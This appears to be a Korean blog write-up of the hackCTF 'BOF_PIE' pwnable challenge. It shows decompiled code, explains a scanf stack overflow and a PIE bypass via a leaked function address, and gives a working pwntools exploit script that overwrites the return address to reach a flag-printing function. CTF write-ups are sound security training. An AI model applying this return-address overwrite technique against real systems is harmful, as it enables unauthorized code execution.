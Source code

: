 ```yaml
---
layout: post
title:  "[hackCTF]BOF_PIE"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 9번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  puts("Nah...");
  return 0;
}
```

## ida - welcome
```c
int welcome()
{
  char v1; // [esp+6h] [ebp-12h]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Hello, Do you know j0n9hyun?");
  printf("j0n9hyun is %p\n", welcome);
  return _isoc99_scanf("%s", &v1);
}
```

## ida - j0n9hyun
```c
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE * stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s); // flag 출력
  }
  else
  {
    perror("flag");
  }
}
```
welcome함수 scanf에서 ret까지 덮어 j0n9hyun 함수를 실행시키면 될 것 같다.<br><br>
![0901](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0901.JPG?raw=true)  
PIE가 걸려 있고 파일을 실행시키면 welcome 함수의 주소를 제공하므로 j0n9hyun 함수의 정확한 주소를 구할 수 있다.  
j0n9hyun 함수의 주소 = welcome 함수의 주소 + (j0n9hyun offset - welcome offset)
<br>

정리해보자.<br><br>
목표 : welcome 함수의 ret을 덮어 j0n9hyun 함수 실행시키기<br>
취약점 : _isoc99_scanf("%s", &v1)<br><br><br>


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3008)

p.recvuntil("j0n9hyun is ")

welcome = int(p.recv(10), 16)

offset = 0x890-0x909

payload = "A"*0x16+p32(welcome+offset)

p.sendline(payload)

p.interactive()
```

## 결과
![0902](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0902.JPG?raw=true)

